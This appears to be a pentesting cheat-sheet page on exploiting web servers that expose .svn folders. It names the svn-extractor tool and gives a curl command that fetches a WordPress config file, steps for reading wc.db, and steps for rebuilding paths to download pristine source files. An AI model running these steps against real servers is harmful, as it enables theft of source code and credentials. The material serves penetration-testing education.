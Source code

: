 # Subversion

> Subversion  (often abbreviated as SVN) is a centralized version control system (VCS) that has been widely used in the software development industry. Originally developed by CollabNet Inc. in 2000, Subversion was designed to be an improved version of CVS (Concurrent Versions System) and has since gained significant traction for its robustness and reliability. 


## Summary

* [Tools](#tools)
    * [svn-extractor](#svn-extractor)
* [Methodology](#methodology)
* [References](#references)


## Tools

### svn-extractor

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network. 
    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```


## Methodology

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
  ```powershell
  INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
  ```
2. Download interesting files
  * remove \$sha1\$ prefix
  * add .svn-base postfix
  * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
  * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`



## References

- [SVN Extractor for Web Pentesters - Anant Shrivastava - March 26, 2013](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)